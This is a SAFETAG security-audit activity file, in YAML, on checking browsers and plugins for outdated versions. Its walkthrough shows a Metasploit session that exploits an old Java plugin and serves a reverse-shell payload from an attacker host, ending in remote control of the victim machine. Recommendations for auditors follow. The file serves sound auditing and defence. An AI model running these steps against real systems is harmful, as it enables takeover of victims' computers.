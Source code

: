 ```yaml
---
title: Check Browser and Plugin Vulnerabilities
approaches:
  - Technical
position: 50
authors:
  - SAFETAG
remote_options:
  - with-support
skills_required: []
skills_trained: []
summary: >

  Though modern browsers are better at self-updating, and the prevalence of
  powerful plugins like flash and java are slowly declining, it is valuable to
  ensure that the browsers in use have updated plugins and are themselves
  updated.
overview: ''
materials_needed: |

  * Metasploit
considerations: ''
walk_through: >

  ###### Outdated Java browser plugins


  While the threat described below is more severe if carried out by a local
  attacker (as they can more readily direct the victim to a malicious Web site),
  it also works remotely. In fact, if a user can be tricked, by a remote
  attacker, into clicking on a malicious email or Web link, attacks like this
  represent a significant perimeter threat. By compromising the victim’s
  machine, they can give the attacker a local point-of-presence without
  requiring the attacker to crack WPA keys or gain local access in some other
  way.


  Step 1: Using Metasploit, an attacker can easily create an ad hoc malicious
  Web site:


  ```

  $ msfconsole


  IIIIII    dTb.dTb        _.---._
    II     4'  v  'B   .'"".'/|\`.""'.
    II     6.     .P  :  .' / | \ `.  :
    II     'T;. .;P'  '.'  /  |  \  `.'
    II      'T; ;P'    `. /   |   \ .'
  IIIIII     'YvP'       `-.__|__.-'


  I love shells --egypt


         =[ metasploit v4.7.0-dev [core:4.7 api:1.0]
  + -- --=[ 1114 exploits - 627 auxiliary - 178 post

  + -- --=[ 307 payloads - 30 encoders - 8 nops


  msf > use exploit/multi/browser/java_jre17_exec


  msf exploit(java_jre17_exec) > set PAYLOAD java/shell/reverse_tcp

  PAYLOAD => java/shell/reverse_tcp


  msf exploit(java_jre17_exec) > set LHOST 192.168.1.123

  LHOST => 192.168.1.123


  msf exploit(java_jre17_exec) > set SRVPORT 8081

  SRVPORT => 8081


  msf exploit(java_jre17_exec) > set URIPATH java_test

  URIPATH => java_test


  msf exploit(java_jre17_exec) > run

  [*] Exploit running as background job.

  ```


  Step 2: At this point, any local user who visits
  http://192.168.1.123:8081/java_test, and who is running a sufficiently
  out-of-date version of the Java browser plugin, stands a good chance of giving
  the attacker full access to his computer:


  ```

  [*] Started reverse handler on 192.168.1.123:4444


  msf exploit(java_jre17_exec) >


  [*] Using URL: http://0.0.0.0:8081/java_test

  [*] Local IP: http://192.168.1.123:8081/java_test

  [*] Server started.


  msf exploit(java_jre17_exec) >


  <remote shell>

  ```


  Figure 1: Attacker in control of the victim’s computer through a remote
  command shell
recommendations: >

  **Sample Recommendation for outdated Java**


  One or more of the organization’s laptops were seen to be running an outdated,
  known-vulnerable version of the Java plugin for Internet Explorer.


  This version contains a vulnerability that is easily exploitable using one of
  the recent Java exploit modules from the widely available Metasploit security
  auditing framework. These modules allow an attacker to gain complete control
  over the computer of a victim who visits a malicious Web site hosted anywhere
  on the Internet. If the attacker is inside the office LAN, they can easily
  trick the victim into visiting that malicious Web site without the victim even
  knowing it.


  At least one of the organization’s computers is running an outdated Java
  browser plugin, and exploit code is widely-available for several critical
  vulnerabilities in versions older than “Java 7, update 16.” All of the
  organization’s Java installations should be updated to the latest version.
  This can be troublesome, as (unlike the Windows operating system itself) Java
  plugins sometimes require user input before they will install updates.
organization_size_under: 25
time_required_minutes: 30
---
```


